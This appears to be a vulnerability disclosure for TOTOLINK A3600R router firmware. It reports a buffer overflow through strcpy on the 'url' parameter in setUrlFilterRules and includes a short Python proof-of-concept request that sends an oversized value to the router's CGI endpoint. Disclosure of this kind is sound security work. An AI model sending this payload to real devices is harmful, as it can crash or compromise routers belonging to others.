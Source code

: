 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setUrlFilterRules` function. The `v9` variable receives the `url` parameter from a POST request. However, since the user can control the input of `url`, the `strcpy(v13, v9);` can cause a buffer overflow vulnerability.

![image-20240721013038265](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721013038265.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"url":"a"*0x1000,"topicurl":"setUrlFilterRules"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721013206607](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721013206607.png)
